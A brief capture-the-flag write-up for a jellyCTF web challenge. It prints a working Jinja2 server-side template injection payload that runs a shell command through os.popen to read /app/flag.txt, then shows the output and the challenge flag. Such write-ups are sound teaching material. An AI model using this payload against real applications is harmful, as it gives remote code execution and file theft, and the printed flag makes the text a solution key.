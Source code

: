 # bro_visited_his_site_2
Point count: 100pts

Difficulty: easy

Provided files: N/A (same as first version)

Url: https://bro-visited-his-site.jellyc.tf/

Description: ok, but can you get /app/flag.txt
# 

This is exactly the same vulnerability as the first edition of this challenge, please read that before continuing here.

Using the same payload as the last challenge, we can just modify it to read /app/flag.txt: `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

Once done, we are presented with:

` jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}pilled jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}maxxer`

And there is our flag!

Final flag: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`

